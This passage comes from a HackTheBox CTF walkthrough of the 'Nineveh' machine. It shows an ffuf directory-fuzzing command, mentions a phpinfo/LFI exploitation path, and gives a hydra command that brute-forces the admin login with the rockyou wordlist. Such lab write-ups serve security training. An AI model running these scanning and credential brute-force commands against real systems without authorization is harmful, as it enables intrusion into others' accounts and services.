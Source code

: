 
Not much to see here, lets run a directory and file scan with:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-mediu
m.txt -u http://nineveh.htb/FUZZ -e .cgi,.php,.txt,.bak,.sql,.pl,.sh,.py
```

![ffuf-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/ffuf-04.png)

We have two interestig results. The first is php info output, it is possible to exploit this if `file_uploads = on`, and we have LFI. More info [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf), however the second folder is a login page:

![dept-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/dept-05.png)

The good old `admin:admin` combo gives away some username information disclosure, this makes brute forcing easier so lets try it! To do that i setup `hydra` as such:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!"
```
